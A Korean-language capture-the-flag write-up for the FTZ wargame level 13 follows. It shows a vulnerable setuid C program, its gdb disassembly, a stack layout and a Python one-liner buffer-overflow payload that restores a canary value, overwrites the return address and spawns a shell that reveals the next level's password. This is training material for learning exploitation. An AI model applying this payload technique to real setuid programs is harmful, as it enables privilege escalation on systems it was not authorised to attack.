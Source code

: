 # **FTZ LEVEL13**

## <img src="http://freevector.co/wp-content/uploads/2014/07/61901-door-key.png" width="25"> **Keys**
>attackme.c
```c
#include <stdlib.h> 

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}
```
`i` 의 값을 검사하고 있다. **overflow**가 일어날 때 `i` 영역을 `0x1234567` 으로 덮어줘야 된다.

gdb를 이용하여 분석해보겠다.
```
(gdb) disas main
Dump of assembler code for function main:
0x080484a0 <main+0>:	push   ebp
0x080484a1 <main+1>:	mov    ebp,esp
0x080484a3 <main+3>:	sub    esp,0x418
0x080484a9 <main+9>:	mov    DWORD PTR [ebp-12],0x1234567
0x080484b0 <main+16>:	sub    esp,0x8
0x080484b3 <main+19>:	push   0xc16
0x080484b8 <main+24>:	push   0xc16
0x080484bd <main+29>:	call   0x8048370 <setreuid>
0x080484c2 <main+34>:	add    esp,0x10
0x080484c5 <main+37>:	cmp    DWORD PTR [ebp+8],0x1
0x080484c9 <main+41>:	jle    0x80484e5 <main+69>
0x080484cb <main+43>:	sub    esp,0x8
0x080484ce <main+46>:	mov    eax,DWORD PTR [ebp+12]
0x080484d1 <main+49>:	add    eax,0x4
0x080484d4 <main+52>:	push   DWORD PTR [eax]
0x080484d6 <main+54>:	lea    eax,[ebp-1048]
0x080484dc <main+60>:	push   eax
0x080484dd <main+61>:	call   0x8048390 <strcpy>
0x080484e2 <main+66>:	add    esp,0x10
0x080484e5 <main+69>:	cmp    DWORD PTR [ebp-12],0x1234567
0x080484ec <main+76>:	je     0x804850d <main+109>
0x080484ee <main+78>:	sub    esp,0xc
0x080484f1 <main+81>:	push   0x80485a0
0x080484f6 <main+86>:	call   0x8048360 <printf>
0x080484fb <main+91>:	add    esp,0x10
0x080484fe <main+94>:	sub    esp,0x8
0x08048501 <main+97>:	push   0xb
0x08048503 <main+99>:	push   0x0
0x08048505 <main+101>:	call   0x8048380 <kill>
0x0804850a <main+106>:	add    esp,0x10
0x0804850d <main+109>:	leave  
0x0804850e <main+110>:	ret    
0x0804850f <main+111>:	nop    
End of assembler dump.
```
`ebp-12` 부분이 `0x1234567` 이 아니라면 프로그램이 종료된다.  
환경변수 를 이용하여 `shellcode` 를 삽입하고 `ebp-12` 부분에 `0x1234567` 를 넣어주겠다.( [환경변수 이용하기](https://github.com/papico0306/SystemHackingPractice/blob/master/FTZ_Solve/ftz11_solve.md "환경변수 이용하기") )
## <img src="https://pngimg.com/uploads/road/road_PNG24.png" width="25"> **Payload**
>메모리 구조
```
| buf[1024] | dummy[12] | i[4] | dummy[8] | sfp | ret |
```

>Payload
```
./attackme `python -c "print 'A'*1036+'\x67\x45\x23\x01'+'A'*12+'\x3d\xfc\xff\xbf'"`
```

## <img src="https://maxcdn.icons8.com/windows8/PNG/512/Military/sword-512.png" width="25"> **Attack**
```
[level13@ftz level13]$ ./attackme `python -c "print 'A'*1036+'\x67\x45\x23\x01'+'A'*12+'\x3d\xfc\xff\xbf'"`
sh-2.05b$ my-pass
TERM environment variable not set.

Level14 Password is "~~~~~~~~~".
```